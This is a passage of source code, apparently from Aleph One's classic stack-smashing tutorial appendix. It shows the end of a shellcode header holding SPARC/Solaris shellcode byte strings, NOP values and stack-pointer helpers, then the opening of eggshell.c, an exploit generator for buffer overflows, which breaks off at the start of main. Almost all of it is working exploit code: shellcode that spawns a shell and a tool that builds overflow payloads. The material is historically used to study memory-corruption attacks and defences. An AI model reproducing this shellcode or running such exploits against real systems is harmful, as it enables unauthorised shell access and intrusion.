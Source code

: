 unsigned long get_sp(void) {
   __asm__("movl %esp,%eax");
}

#elif defined(__sparc__) && defined(__sun__) && defined(__svr4__)

#define NOP_SIZE	4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\x91\xd0\x20\x08"
  "\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd0\x20\x08";

unsigned long get_sp(void) {
  __asm__("or %sp, %sp, %i0");
}

#elif defined(__sparc__) && defined(__sun__)

#define NOP_SIZE        4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\xaa\x10\x3f\xff"
  "\x91\xd5\x60\x01\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd5\x60\x01";

unsigned long get_sp(void) {
  __asm__("or %sp, %sp, %i0");
}

#endif
------------------------------------------------------------------------------

eggshell.c
------------------------------------------------------------------------------
/*
 * eggshell v1.0
 *
 * Aleph One / aleph1@underground.org
 */
#include <stdlib.h>
#include <stdio.h>
#include "shellcode.h"

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define DEFAULT_EGG_SIZE               2048

void usage(void);

void main(int argc, char *argv[]) {
  char *ptr, *bof, *egg;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i, n, m, c, align=0, eggsize=DEFAULT_EGG_SIZE;
